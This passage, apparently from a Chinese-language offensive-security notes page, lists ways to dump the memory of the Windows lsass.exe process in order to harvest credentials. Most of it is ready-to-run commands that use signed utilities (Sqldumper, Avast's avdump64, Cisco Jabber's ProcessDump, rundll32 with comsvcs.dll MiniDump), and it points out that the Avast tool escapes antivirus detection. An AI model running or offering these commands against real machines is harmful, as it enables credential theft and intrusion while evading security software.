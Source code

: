 ```
tasklist /svc |findstr lsass.exe
```

完整转储文件：

```
Sqldumper.exe <ProcessID> 0 0x01100
```

微型转储文件：

```
Sqldumper.exe <ProcessID> 0 0x0120
```

> Sqldumper 的其它使用方法见：[使用 Sqldumper.exe 生成转储文件 - SQL Server](https://learn.microsoft.com/zh-cn/troubleshoot/sql/tools/use-sqldumper-generate-dump-file)

### AvDump

[AvDump](https://www.pconlife.com/viewfileinfo/avdump64-exe/) 是 Avast 杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，因为它带有 Avast 杀软数字签名，所以不会被反病毒检测和查杀

```
.\avdump64.exe --pid <lsass pid> --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file C:\ProgramData\lsass.dmp
```

### Process Explorer

Process Explorer 也是是 SysInternal 团队开发的 windows 进程监控工具，此工具主要对 windows 的进程进行监控，包括进程相关文件、进程属性、进程状态等进行监控。在此工具的正常功能中，需要对进程内存进行 dump，来查看进程运行过程中的内存。
此工具直接通过图形界面来创建 dump 文件。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/12358123/1674453743784-26b153ee-5f33-41aa-91a0-e419ee80c756.png#averageHue=%23242323&clientId=uf9299405-c287-4&from=paste&height=552&id=ub7295974&originHeight=885&originWidth=1186&originalType=binary&ratio=1&rotation=0&showTitle=false&size=54074&status=done&style=none&taskId=u3f098ca1-edc8-4e70-a92a-20bc3265795&title=&width=739.3246936383109)

### ProcessDump

[思科 Cisco Jabber](https://www.webex.com/downloads/jabber.html) 会在 `C:\Program Files (x86)\Cisco Systems\Cisco Jabber\x64\ProcessDump.exe` jabber 会使用此程序来进行内存转储。

```
processdump.exe (ps lsass).id c:\lsass.dmp
```

### Process-Dump

[https://github.com/glmcdona/Process-Dump](https://github.com/glmcdona/Process-Dump)

### Comsvcs.dll

此方法主要是通过 rundll32 来调用 comsvcs.dll 中的 MiniDump 来直接 dump 相关内存。
MiniDumpW 通过 OpenProcess+CreateFileW+MiniDumpWriteDump 函数来 dump 内存。

```
rundll32 C:\windows\system32\comsvcs.dll MiniDump "<LsassPid> dump.bin full"
```
